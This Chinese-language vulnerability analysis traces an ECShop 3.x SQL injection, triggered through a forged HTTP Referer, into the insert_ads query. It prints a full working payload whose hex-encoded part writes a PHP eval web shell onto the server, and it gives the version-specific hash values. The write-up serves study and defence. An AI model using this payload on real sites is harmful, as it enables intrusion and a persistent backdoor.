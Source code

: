 ![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F85e46faa-9c1a-4f47-970a-90d2c02153f7/F0DE5A68-79BC-43F6-A522-543E35EE82D2.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F85e46faa-9c1a-4f47-970a-90d2c02153f7/F0DE5A68-79BC-43F6-A522-543E35EE82D2.png)

inser_mod函数

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F0dbf2f8d-b318-43c9-8d58-53e8c1c13a08/1BC3419A-FF7D-42EA-ACFF-A24E27A72B2C.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F0dbf2f8d-b318-43c9-8d58-53e8c1c13a08/1BC3419A-FF7D-42EA-ACFF-A24E27A72B2C.png)

1. **Payload**：

    45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4975634768774A79776E50443977614841675A585A686243676B58314250553152624D5445784D5630704F79412F506963702729293B2F2F7D787878,10-- -";s:2:"id";s:3:"'/*";}

1. 开始分析
在user.php 中的通过执行登陆操作的时候，将$GLOBALS[‘_SERVER’][‘HTTP_REFERER’]; 的值修改为我们的代码

    ![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F2551ea13-fffe-4a39-aa59-4b6894298915/7060CBBA-584D-458C-88CD-E4BEFC2AD198.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F2551ea13-fffe-4a39-aa59-4b6894298915/7060CBBA-584D-458C-88CD-E4BEFC2AD198.png)

这时候$back_act的值就是我们篡改之后的REFERER值了
接着执行

    $smarty->assign('back_act', $back_act);  //赋值
    $smarty->display('user_passport.dwt'); //传值到模板上

这时候模板上的back_act值是这样的

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Facdecfc0-84b8-44a4-a749-f9e25cd27a29/6FD91DC8-A167-4A70-A937-21229FB8063B.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Facdecfc0-84b8-44a4-a749-f9e25cd27a29/6FD91DC8-A167-4A70-A937-21229FB8063B.png)

在观察堆栈参数的时候，可以观察到this->_echash 的值跟我们的Payload的值是一样的，这是ECSHOP的固定的HASH值，2.7版本的_echash值为554fcae493e564ee0dc75bdf2ebf94ca而3.x版本的_echash值为45ea207d7a2b68c49582d2d22adf953，所以所用的Payload也不一样

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1abefd1f-1d3d-4d2d-aca5-0ad9cfcfb8fa/37705A27-1295-48D9-867C-1C2AB4A35701.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1abefd1f-1d3d-4d2d-aca5-0ad9cfcfb8fa/37705A27-1295-48D9-867C-1C2AB4A35701.png)

进入到display函数中,
`$out = $this->fetch($filename, $cache_id); //根据$cache_id获取模板内容也就是user_passport.dwt的内容`
接着对内容按照_echash进行分割，

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd033ab09-4930-4d34-b73e-4b0d8df41b82/7CCE33BD-1C8F-4BCB-8608-4C70FCB3541A.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd033ab09-4930-4d34-b73e-4b0d8df41b82/7CCE33BD-1C8F-4BCB-8608-4C70FCB3541A.png)

分割完之后会先执行两个默认函数，然后才执行我们的代码
接着会进入到`$k[$key] = $this->insert_mod($val);`
会进入到`insert_mod`函数中
跟进。可以看到我们输入的字符串根据|进行了分割，并分别赋值给了`$fun`和`$para`

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F29876ded-a146-4808-9872-e835e714cf6d/5B21EC64-7C41-46A3-B521-B4B1A082676A.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F29876ded-a146-4808-9872-e835e714cf6d/5B21EC64-7C41-46A3-B521-B4B1A082676A.png)

最后的到的值类似于`$fun = insert_ads $para = array(‘num’=>”*/union…”,’id’=>”*/”)`

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F10cc4317-a8db-42a0-a59d-0642c6bc1184/A94307AB-DA3C-4021-8E85-2D4CD9C1DB9E.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F10cc4317-a8db-42a0-a59d-0642c6bc1184/A94307AB-DA3C-4021-8E85-2D4CD9C1DB9E.png)

到了`return $fun($para);`这里，将会执行insert_ads($para) 函数，跟进
可以看到这里执行了SQL语句，$arr[‘id’]和$arr[‘num’]，正是我们传进来的数组，可控，从而造成了注入。
这时候在数据库中，执行的语句为：

    SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, p.ad_height, p.position_style, RAND() AS rnd FROM `ecshop3_0`.`ecs_ad` AS a LEFT JOIN `ecshop3_0`.`ecs_ad_position` AS p ON a.position_id = p.position_id WHERE enabled = 1 AND start_time <= '1536052713' AND end_time >= '1536052713' AND a.position_id = ''/*' ORDER BY rnd LIMIT */ union select 1,0x272f2a,3,4,5,6,7,8,0x,0x272f2a,3,4,5,6,7,8,0x7B24617364275D3B617373657274286261736536345F6465636F646528275A6D6C735A56397764585266593239756447567564484D6F4A7A4975634768774A79776E50443977614841675A585A686243676B58314250553152624D5445784D5630704F79412F506963702729293B2F2F7D787878,10-- -
